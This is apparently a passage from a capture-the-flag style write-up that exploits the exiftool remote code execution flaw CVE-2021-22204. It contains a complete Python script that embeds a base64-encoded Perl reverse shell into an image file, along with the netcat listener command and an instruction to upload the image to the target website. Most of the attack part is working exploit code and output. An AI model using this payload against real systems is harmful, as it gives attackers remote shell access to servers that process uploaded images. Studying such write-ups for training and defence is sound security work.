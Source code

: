 There has been a recent CVE(CVE-2021-22204)with remote code execution in exiftool. Using this [PoC](https://github.com/convisolabs/CVE-2021-22204-exiftool) where we only have to adjust our ip address to tun0 and the port to where we want to catch the reverse shell we can generate an image that sends a python reverse shell back to our machine.

`exploit.py`
```py
#!/bin/env python3

import base64
import subprocess

ip = '10.10.14.73'
port = '7575'

payload = b"(metadata \"\c${use MIME::Base64;eval(decode_base64('"


payload = payload + base64.b64encode( f"use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in({port},inet_aton('{ip}')))){{open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');}};".encode() )

payload = payload + b"'))};\")"


payload_file = open('payload', 'w')
payload_file.write(payload.decode('utf-8'))
payload_file.close()


subprocess.run(['bzz', 'payload', 'payload.bzz'])
subprocess.run(['djvumake', 'exploit.djvu', "INFO=1,1", 'BGjp=/dev/null', 'ANTz=payload.bzz'])
subprocess.run(['exiftool', '-config', 'configfile', '-HasselbladExif<=exploit.djvu', 'image.jpg'])
```

Running the script the image is getting updated with the payload.

```
$ python3 exploit.py
    1 image files updated
```

Now we just have to set up a listener on the port we specified and upload the generated image to the website.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```
